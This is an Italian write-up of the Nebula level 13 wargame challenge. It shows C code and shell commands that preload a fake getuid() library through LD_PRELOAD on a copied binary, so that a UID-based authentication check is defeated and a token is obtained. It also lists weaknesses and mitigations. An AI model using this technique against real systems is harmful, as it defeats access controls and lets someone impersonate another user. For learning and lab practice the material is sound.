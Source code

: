 # Nebula_13 - Iniezione locale

## Obiettivi della sfida
1. Recuperare la password dell'utente **flag13** agirando il controllo di sicurezza del programma `/home/flag13/flag13`
2. Autenticarsi come **flag13**
3. Eseguire `bin/getflag`

## Strategia di attacco
L'amministratore non è intenzionato a fornire la password e romperla risulta troppo difficile quindi bisogna passare a strategie alternative. Controlliamo i permessi di `/home/flag13/flag13`,  veniamo a sapere che il binario flag13 è di proprietà dell'utente **flag13** ed è eseguibile dagli utenti del gruppo **level13** inoltre ha il bit SETUID alzato.
### Cosa fare

### Commento di level13_safe.c
Il programma controlla se l'UID è diverso da 1000 allora stampa un messaggio di errore, altrimenti crea il token di autenticazione per l'utente **flag13** e lo stampa.
Le variabili di ambiente sfruttabili per questo attacco sono **LD_PRELOAD** e **LD_LIBRARY_PATH** esse possono influenzare il comportamento del **linker**.  
Dal manuale di LD_PRELOAD scopriamo che esso contiene una lista di **librerie condivise** esse vengono linkate prima di tutte le altre durante l'esecuzione e vengono usate per ridefinire dinamicamente alcune funzioni senza dover ricompilare i sorgenti.

## Come sfruttare le vulnerabilità
Possiamo usare la variabile LD_PRELOAD per caricare una libreria che implementa la funzione del controllo degli accessi del programma `/home/flag13/flag13`. La libreria che scriveremo reimposta `getuid()` per superare il controllo degli accessi.

### Istruzioni da eseguire
1. Scrivere la libreria **getuid.c**
```c
#include <unistd.h>
#include <sys/types.h>

uid_t getuid(void){
    return 1000;
}
```
2. Generare la libreria condivisa con:
```bash
> gcc -shared -fPIC -o getuid.so getuid.c
```
3. Caricare la libreria
```bash
> LD_PRELOAD=./getuid.so
# esecuzione di flag13
/home/flag13/flag13
# fallimento
```
L'iniezione della libreria fallisce perchè il manuale di LD_PRELOAD ci dice che se l'eseguibile ha SETUID alzato allora lo deve tenere anche la libreria.  
Il SETUID della libreria non può essere modificato perchè non siamo root, ma possiamo abbassare il SETUID del binario facendone una copia.  
Quindi per vincere la sfida facciamo
```bash
> cp /home/flag13/flag13 /home/level13/flag13
> gcc -shared -fPIC -o getuid.so getuid.c
> LD_PRELOAD=./getuid.so /home/level13/flag13
> ./flag13
# stampa del token di autenticazione
# possiamo autenticarci come flag13 dato che abbiamo la password
> getflag
# sfida vinta
```

## Debolezze
1. Manipolando LD_PRELOAD riusciamo a sovrascrivere getuid()
2. by-pass tramite **spoofing**, l'attaccante può riprodurre il token di autenticazione di un altro utente.
## Mitigazione
1. Questa volta non possiamo semplicemente ripulire la variabile di ambiente perchè LD_PRELOAD agisce prima del caricamento del programma.
2. L'autenticazione si basa su un valore noto che è 1000, occorre utilizzare più fattori di autenticazione.